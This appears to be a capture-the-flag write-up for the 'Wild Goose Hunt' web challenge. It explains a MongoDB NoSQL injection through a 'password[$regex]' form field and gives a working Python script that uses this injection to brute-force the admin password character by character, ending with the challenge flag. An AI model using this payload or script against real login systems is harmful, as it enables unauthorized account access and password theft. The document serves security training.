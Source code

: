 ```yaml
---
title: 'CyberApocolypse 2021 | Wild Goose Hunt'
date: "2021-04-24T00:00:00Z"
tags: [web,nosqlinjection,mongodb]
points: 300
solves: 515
---
```


Solves: {{ page.solves }} \| Points: {{ page.points }}

The webpage is just an username and password input field. 
After checking the source that we could download we were able to discover that the password of the admin user is also the *flag*.
Also we see that its a *mongodb database*, Maybe we have to do some *nosqlinjection*, after using burp to check the request we see its not using json but urlencoded formdata.

After searching for a poc i found that you can use `password[%24regex]=` to check with an regex, if you just use `^.*` as regex it will pass because it matches everything.
This way we can leak the password because if you put a character that isn't in in that place in the password in front of the `.*` it will fail, if its in the password it will pass.

Now we can bruteforce this, i made a little script using python.

```python
#!/usr/bin/env python
import os
import string
import json

workString = ''
ip = '188.166.145.178'
port = 31336
Solved = False

allowed = list(string.ascii_letters + string.digits + '!_-@{}')

while Solved != True:
    for currentChar in allowed:
        testString = workString+currentChar
        command = f"curl -s -k -X 'POST' -H 'Host: {ip}:{port}' -H 'Content-Type: application/x-www-form-urlencoded;charset=UTF-8' -H 'Accept: */*' -H 'Origin: http://{ip}:{port}' -H 'Referer: http://{ip}:{port}/' -H 'Accept-Encoding: gzip, deflate' -H 'Accept-Language: en-US,en;q=0.9' -H 'Connection: close' --data-binary 'username=admin&password[%24regex]=%5E{testString}.*' http://{ip}:{port}/api/login"
        output = os.popen(command).read()
        jsonData = json.loads(output)
        print( f"[{'+' if jsonData['logged'] == 1 else '-'}] Trying: '{workString}' + '{currentChar}' ({testString}) | isCorrect: {'True' if jsonData['logged'] == 1 else 'False'}")
        if jsonData["logged"] == 1:
            workString+=currentChar
            if currentChar == '}': Solved = True
            break

print("")
print(f"[FLAG] The flag is: {workString}")
```
^ A download for this script can be found [here](/assets/CTFs/CyberApocolypse2021/WideGooseHunt/solve.py)

Now that the solver is running ill explain what it does.
![](/assets/CTFs/CyberApocolypse2021/WideGooseHunt/solver_running.png)

This code will loop over every character, if the character is correct than it will add it to the working password.
Then it will go the the next place in the password and try every character, until the last character is found.
It knows if its correct by checking if the `logged` value in the returned jsondata is `1`.


After running the script it found the flag.
**CHTB{1_th1nk_the_4l1ens_h4ve_n0t_used_m0ng0_b3f0r3}** 
![](/assets/CTFs/CyberApocolypse2021/WideGooseHunt/solver_done.png)


Thanks for reading my writeup!

---
sources: [NOSQL INJECTION OPERATORS](https://infosecwriteups.com/nosql-injection-8732c2140576)
